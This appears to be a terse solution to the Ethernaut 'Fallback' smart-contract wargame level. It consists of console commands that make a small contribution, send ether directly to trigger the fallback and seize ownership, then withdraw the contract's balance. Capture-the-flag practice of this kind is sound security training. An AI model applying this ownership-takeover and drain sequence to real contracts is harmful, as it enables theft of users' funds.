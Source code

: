 https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB

```console
toWei("0.0001")
> '100000000000000'

await contract.contribute({value:100000000000000})
await contract.sendTransaction({value:1})

await contract.owner() // owener is already changed
await contract.withdraw()
```
